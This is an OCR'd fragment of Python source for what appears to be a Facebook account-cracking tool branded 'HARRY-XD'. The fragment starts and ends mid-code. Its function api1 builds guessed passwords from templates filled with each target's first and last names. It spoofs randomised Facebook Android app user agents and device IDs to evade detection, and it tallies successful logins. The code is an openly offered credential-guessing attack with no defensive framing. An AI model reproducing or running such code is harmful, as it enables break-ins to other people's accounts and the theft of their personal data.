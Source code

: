                                                 break

                                else:

                                        continue

                        loop+=1

                except requests.exceptions.ConnectionError:

                        time.sleep(10)

                except Exception as e:

                        pass

def api1(ids,names,passlist):

                try:

                        global ok,loop

                        sys.stdout.write('\r\r\033[1;37m [HARRY-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()

                        fn = names.split(' ')[0]

                        try:

                                ln = names.split(' ')[1]

                        except:

                                ln = fn

                        for pw in passlist:

                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())

                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))

                                application_version_code=str(random.randint(000000000,999999999))

                                fbs=random.choice(fbks)

                                gtt=random.choice(xxxxx)

                                gttt=random.choice(xxxxx)

                                android_version=str(random.randrange(6,13))

                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'

                                device_id = str(uuid.uuid4())

                                adid = str(uuid.uuid4())

                                data = {'adid':adid,
